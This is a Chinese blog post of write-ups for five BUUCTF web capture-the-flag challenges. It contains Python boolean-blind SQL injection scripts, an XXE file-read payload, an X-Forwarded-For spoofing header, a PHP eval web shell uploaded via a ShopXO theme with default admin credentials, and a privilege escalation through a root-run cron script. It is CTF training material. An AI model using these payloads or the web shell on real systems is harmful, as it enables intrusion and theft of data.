








<!--yml
category: 未分类
date: 2022-04-26 14:39:55
-->

# BUUCTF__web题解合集（六）_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/tm_1024/article/details/107962165](https://blog.csdn.net/tm_1024/article/details/107962165)

## 前言

*   开学有希望了。
*   感觉现在刷题刷到瓶颈了，感觉后面这些题的知识点远远超过我的认知。

### 1、[BJDCTF 2nd]简单注入

*   先简单测试一下，发现过滤的东西比较多，单引号双引号都被过滤，并且像slelct、and、union、= 都被过滤了。直接限制了很多方法，但继续测试发现布尔盲注的关键词可行，但没办法闭合语句，也就没办法注入。

*   没想到sql注入还能要扫目录。扫目录能看到`robots.txt`，提示存在`hint.txt`，访问告知了你sql查询语句。

    ```
    select * from users where username='$_POST["username"]' and password='$_POST["password"]'; 
    ```

*   很平常的查询语句。但同时有什么用呢，就得结合上面的测试，跑字典发现`\`没被过滤。而它的作用就是转义。

*   如果我们 username 传入的是`admin\`那么`\`可以把闭合username的单引号转义，也就变成了`username='admin\' and password='` 而我们传入的password也就单独成为了一部分，也就给了我们利用的机会。

*   一般的布尔盲注都是从数据库、表名、字段开始最后到内容，就不可避免的用到`select` 关键词。但这里已经给出了表名，字段名。并且是在已经`select * from users`的基础上，所以我们直接截取username，password字段就行。

    ```
    or (ascii(substr(username,1,1))>1000)#
    or (ascii(substr(password,1,1))>1000)# 
    ```

*   结合起来的sql语句就是

    ```
    select * from users where username='admin\' and password=' or ascii(substr(password,1,1))>0#'; 
    ```

*   这样的话，因为前面`username='admin\' and password='`查询不存在。执行 `or` 后面的来作返回值，从而构成布尔盲注。

*   并且发现当为真时，回显不同。
    

*   所以，可以编写python脚本来跑。借用网上师傅的二分法。

```
import requests
url = "http://14829c94-fa8f-4174-8c65-8a1a71991ba1.node3.buuoj.cn/"

data = {"username":"admin\\","password":""}
result = ""
i = 0

while( True ):
	i = i + 1 
	head=32
	tail=127

	while( head < tail ):
		mid = (head + tail) >> 1

		payload = "or ascii(substr(password,%d,1))>%d#"%(i,mid)

		data['password'] = payload
		r = requests.post(url,data=data)

		if "stronger" in r.text :
			head = mid + 1
		else:
			tail = mid

	last = result

	if head!=32:
		result += chr(head)
	else:
		break
	print(result) 
```

### 2、[NCTF2019]Fake XML cookbook

*   开始以为是sql注入。一顿测试毫无反应。 查看源码，也没有独特的东西，扫一下也啥都没有。开始既结束。

*   然后看wp，没接触过的`XML实体注入`。有两个介绍文章[从XML相关一步一步到XXE漏洞](https://xz.aliyun.com/t/6887#toc-5)和[浅谈XML实体注入漏洞](https://www.freebuf.com/vuls/175451.html)

*   首先第一次接触到XXE漏洞的题，大概看下来，明白这是什么？了解了XML语言类型。及它的利用方式。大概就是依靠外部实体可支持http、file等协议来完成一些操作。

*   而这题的利用方式就是最简单的利用`参数实体+外部实体`来实现文件读取。

*   先抓包看回显，发现我们输入的用户名会有输出。而形式就是获取我们传入的xml文本。
    

*   所以我们利用`参数实体+外部实体`，把传入的内容改为读取文件。变成了

    ```
    <?xml version="1.0" encoding="utf-8"?> 
    <!DOCTYPE xxe [
    <!ELEMENT name ANY >
    <!ENTITY penson SYSTEM "file:///flag" >
    ]>
    <user><username>&penson;</username><password>penson</password></user> 
    ```

*   其中的参数实体`&penson`在上面的外部实体中被赋值为`file:///flag` 所以输出时就是我们想要的flag。而file协议就不多说是什么了，而读取的文件flag，则是可以试探的比如说，flag.php、flag.txt、flag 等常见flag形式。

*   所以修改上传。就成功解题。
    

*   总结：xml注入的利用。

### 3、[MRCTF2020]PYWebsite

*   很简单的一道题，打开是flag购买页面，F12可知是前端验证，同时看到一个flag.php。

*   访问它，提示购买者IP已经被保存，很明显想到XFF伪造本地ip，抓包，在请求头加上

    ```
    X-Forwarded-For:127.0.0.1 
    ```



### 4、[极客大挑战 2019]FinalSQL

*   还是这个 sql 注入，但这次的注入点不在登录框，在上面的 id 查询。
*   测试一番，做过好几个异或注入了，很快能测试出来就是它。`1^1`返回错误，`1^0`返回 id=1 的查询结果。
*   然后继续测发现空格被过滤。`/**/`不能用，可以用`()`分割语句。
*   而payload就是
*   所以可以用脚本从数据库开始跑。贴上一位大师傅的脚本，主要二分法我不会写，学习一下，下次自己写。

```
import re
import requests
import string

url = "http://9f6539fe-1a9e-400b-bb7f-5eec012bb852.node3.buuoj.cn/search.php"
flag = ''
def payload(i,j):

    sql = "1^(ord(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)^1"%(i,j)
    data = {"id":sql}
    r = requests.get(url,params=data)

    if "Click" in r.text:
        res = 1
    else:
        res = 0

    return res

def exp():
    global flag
    for i in range(1,10000) :
        print(i,':')
        low = 31
        high = 127
        while low <= high :
            mid = (low + high) // 2
            res = payload(i,mid)
            if res :
                low = mid + 1
            else :
                high = mid - 1
        f = int((low + high + 1)) // 2
        if (f == 127 or f == 31):
            break

        flag += chr(f)
        print(flag)

exp()
print('flag=',flag) 
```

*   上面的注入 payload 用到了一个`ord()`函数,其实可以用`ASCII()`代替。[函数介绍](http://www.hechaku.com/sqlfunction/sql_ord__hanshu.html)。

### 5、[GKCTF2020]老八小超市儿

*   ShopXO商城，一个开源商城系统，直接百度[ShopXO漏洞](https://www.nctry.com/1660.html)就能找到，比如说前面那篇。

*   所以，我们仿造步骤，访问`/admin.php` 。登录`admin/shopxo`，成功进入后台管理页面。然后左下角。应用商店，下载一个免费的主题，比如说粉红主题。
    

*   然后本地加一个PHP文件上去。

    ```
    <?php
      @eval($_POST[a]);
      phpinfo(); 
    ?> 
    ```



*   然后网站主题管理上传安装。
    

*   然后访问`url/public/static/index/lengyu/1.php` 就看到了 phpinfo 信息，注意的`/lengyu/1.php`是我们上次的压缩包文件名+PHP文件名。下载默认的主题文件名太长了就改了它。这里上面写的那篇文章里没有`/public/`但看它访问的url里有，应该是漏了。

*   接下来就用蚁剑连接，执行`cat /flag` 居然是假的flag。

*   然后同目录下有提示在root目录，但我们没权限访问。我们的登录用户是www-data。

*   然后是同目录下的`auto.sh`文件
    

*   内容是每60秒执行一次 /var/mail/makeflaghint.py 文件。

    ```
    #!/bin/sh
    while true; do (python /var/mail/makeflaghint.py &) && sleep 60; done 
    ```

*   去找到这个文件。作用是更新flag.hint文件。

    ```
    import os
    import io
    import time
    os.system("whoami")
    gk1=str(time.ctime())
    gk="\nGet The RooT,The Date Is Useful!"
    f=io.open("/flag.hint", "rb+")
    f.write(str(gk1))
    f.write(str(gk))
    f.close() 
    ```

*   这里就是得明白auto.sh是以 root 权限运行的，所以我们只需修改 makeflaghint.py 的内容就行。话说咋看出来的，它在蚁剑中文件标红不知道算不算，大部分说是经验。。。

*   然后就只需在 makeflaghint.py 加上以下就行，位置应该在最后 f.close() 前。至于`/root/flag`，就是根据之前的提示，flag 在 root 目录下。

    ```
    flag=io.open("/root/flag","r").read()
    f.write(str(flag)) 
    ```

*   所以接下来等待60秒，flag.hint文件再次更新就行。
    

*   总结：这应该算信息收集吧。重点就是auto.sh这里。

## 最后